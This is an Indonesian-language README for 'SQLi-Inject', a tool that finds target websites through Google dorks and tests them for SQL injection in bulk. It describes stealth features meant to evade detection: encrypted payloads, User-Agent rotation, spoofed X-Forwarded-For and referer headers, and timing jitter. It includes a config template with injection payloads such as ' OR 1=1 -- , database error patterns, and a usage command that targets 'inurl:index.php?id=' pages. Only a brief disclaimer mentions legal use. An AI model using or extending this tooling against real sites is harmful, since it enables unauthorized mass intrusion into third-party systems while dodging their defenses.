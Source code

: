# SQLi-Inject  
**Comprehensive SQL Injection Dork Scanner**  

---

## 🔍 Fitur Utama
- **Google Dorking Otomatis** - Temukan target menggunakan Google Custom Search API
- **Payload Terenkripsi** - Enkripsi payload dengan Fernet untuk menghindari deteksi
- **Multithreaded Scanning** - Eksekusi paralel dengan ThreadPoolExecutor
- **Mekanisme Evasi**:
  - Rotasi User-Agent acak
  - Delay dinamis dengan jitter
  - Spoofing header X-Forwarded-For
  - Referer palsu
- **Multi-Format Reporting** (JSON/CSV/Console)
- **Deteksi Cerdas**:
  - Analisis response time
  - Pola error database
  - Validasi kode status HTTP

---

## 🛠️ Instalasi
1. Clone repositori  
```bash
git clone https://github.com/Lilith-VnK/SQLi-Inject.git
```
2. Install dependensi  
```bash
pip install -r requirements.txt
```

---

## ⚙️ Konfigurasi
Buat file `config.yaml` dengan template berikut:

```yaml
security:
  encryption_key: "kunci_fernet_base64_32_byte"

payloads:
  mysql:
    - "gAAAAAB..."  # Payload terenkripsi MySQL
    - "gAAAAAB..."  # Contoh: ' OR 1=1 -- 
  postgresql:
    - "gAAAAAB..."  # Payload terenkripsi PostgreSQL

network:
  proxies:
    http: "http://proxy:port"
    https: "https://proxy:port"
  timeout: 10

endpoints:
  google: "https://www.googleapis.com/customsearch/v1"

credentials:
  api_key: "your_google_api_key"
  cse_id: "your_cse_id"

stealth:
  referers:
    - "https://www.google.com"
    - "https://www.bing.com"
  time_based_threshold: 3.5

performance:
  threads: 15

detection_patterns:
  - "error in your SQL syntax"
  - "Warning: mysql"
  - "PostgreSQL.*ERROR"
```

### 🔑 Generate Encryption Key
```python
from cryptography.fernet import Fernet
print(Fernet.generate_key().decode())
```

### 🔒 Contoh Enkripsi Payload
```python
key = Fernet.generate_key()
cipher = Fernet(key)
encrypted_payload = cipher.encrypt(b"' OR 1=1 -- ").decode()
print(encrypted_payload)
```

---

## 🚀 Penggunaan
Command dasar:
```bash
python scanner.py \
  --dork "inurl:index.php?id=" \
  --max-results 50 \
  --stealth \
  --jitter 0.5 \
  --random-agent \
  --output console
```

Opsi parameter:
```
--dork          Query pencarian Google (wajib)
--site          Filter berdasarkan domain
--file-type     Filter berdasarkan tipe file
--max-results   Jumlah maksimal hasil (1-100)
--stealth       Aktifkan mode stealth
--jitter        Variasi random delay (default: 0.5)
--delay         Base delay antar request (default: 1.0)
--random-agent  Rotasi User-Agent acak
--output        Format laporan (console/json/csv)
```

---

## ⚠️ Disclaimer
Alat ini hanya untuk tujuan edukasi dan pengujian legal. Pengguna bertanggung jawab penuh atas penggunaan alat ini.

---

## 🙌 Special Thanks
Terima kasih kepada kontributor open source:

- [synnaulaid](https://github.com/synnaulaid) - Inspirasi pengembangan alat keamanan serta debugging

---
